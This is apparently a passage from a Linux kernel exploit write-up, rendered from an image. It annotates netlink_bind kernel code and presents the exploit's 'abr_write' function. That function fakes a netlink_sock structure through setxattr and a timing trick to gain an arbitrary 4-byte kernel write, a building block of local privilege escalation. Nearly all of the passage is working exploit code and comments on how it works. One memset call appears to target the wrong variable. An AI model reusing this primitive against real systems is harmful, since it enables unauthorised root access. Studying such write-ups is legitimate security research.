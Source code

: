 ```c
  /* hweigh32: return number of bits set in a 32 bits value. Return: 0 -> 32.
  X = hweight32(groups) - hweight32(nlk->groups[0])
  => -32 <= X <= 32
  => 33 <= nlk->subscriptions <= 2**32 - 33. Any values in this range ensure both if and else if case in netlink_update_subscriptions are skip.
  I chose to set nlk->subscriptions to 33
  */
	netlink_update_subscriptions(sk, nlk->subscriptions +
					 hweight32(groups) -
					 hweight32(nlk->groups[0]));
	nlk->groups[0] = (nlk->groups[0] & ~0xffffffffUL) | groups; // nlk->groups: the address i want to write 4 bytes to.
	netlink_update_listeners(sk); // nothing harmful
	netlink_table_ungrab();

	return 0;

unlock:
	netlink_unlock_table();
	return err;
}
```

- Build primitive [exploit.c#L526](./exploit.c#L526):

```c
void abr_write(uint64_t addr, uint32_t val)
{
  uint8_t fake_netlink_sock_buf[1024] = {};
  struct netlink_sock *nlk = (struct netlink_sock*)fake_netlink_sock_buf;
  *(uint32_t*)(nlk->buf + NGROUPS_OFFSET_FROM_STRUCT_NETLINK_SOCK) = 0xFFFFFFFF;
  *(uint16_t*)(nlk->buf + SK_PROTOCOL_OFFSET_FROM_NETLINK_SOCK) = NETLINK_ROUTE;
  *(uint8_t*)(nlk->buf + BOUND_OFFSET_FROM_STRUCT_NETLINK_SOCK) = 1;
  *(uint64_t*)(nlk->buf + GROUPS_OFFSET_FROM_STRUCT_NETLINK_SOCK) = addr;
  *(uint64_t*)(nlk->buf + SK_SECURITY_OFFSET_FROM_NETLINK_SOCK) = netlink_sock_sk_security_addr;
  *(uint32_t*)(nlk->buf + SUBSCRIPTIONS_OFFSET_FROM_STRUCT_NETLINK_SOCK) = 33;
  *(uint32_t*)(nlk->buf + PORTID_OFFSET_FROM_STRUCT_NETLINK_SOCK) = 1234;

  get_full_timesplice();
  removexattr(FAKE_NETLINK_SOCK_FILE_PATH, "security.fake_netlink_sock");
  setxattr(FAKE_NETLINK_SOCK_FILE_PATH, "security.fake_netlink_sock", fake_netlink_sock_buf, 1024, 0);
  struct sockaddr_nl trigger_write_addr;
  memset(&addr, 0, sizeof(addr));
  trigger_write_addr.nl_family = AF_NETLINK;
  trigger_write_addr.nl_pid = 1234;
  trigger_write_addr.nl_groups = val;
  bind(primitive_netlink_socket_fd, (struct sockaddr*)&trigger_write_addr, sizeof(trigger_write_addr));
}
```
